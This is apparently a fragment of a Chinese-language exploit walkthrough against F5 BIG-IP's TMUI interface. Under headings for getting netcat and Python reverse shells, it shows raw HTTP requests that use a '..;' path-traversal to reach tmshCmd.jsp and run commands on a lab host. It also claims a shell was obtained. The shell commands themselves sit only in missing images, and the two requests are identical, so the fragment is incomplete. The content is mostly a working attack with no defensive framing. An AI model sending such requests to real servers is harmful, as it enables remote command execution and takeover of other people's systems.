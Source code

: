 ```
```

  
![](https://mmbiz.qpic.cn/mmbiz_jpg/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHuC965DAXwDYC4grG389cJ723fcdwdKSkkR98u4lQOWP5tQ1eKxpAVw/640?wx_fmt=jpeg "")  
  
b、nc反弹shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHB2HH68QoGiahylgQXWTyxCialyvaLxhqNdaj4N5weoB1qdpqHRR0ZlfQ/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/1.txt HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F




```

  
成功反弹shell：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHZRnxiaFlZ65t4uzagicLteAKmr9ibbee2dgibE3BuRo8khQboiaDyDt0J1A/640?wx_fmt=jpeg "")  
  
c、python反弹shell回来  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHltCPewuNdicJGAJ9gQ2jO4abEzSECFfemfVWgTdPHAjDQAFm9ZDDOzA/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/1.txt HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F


```
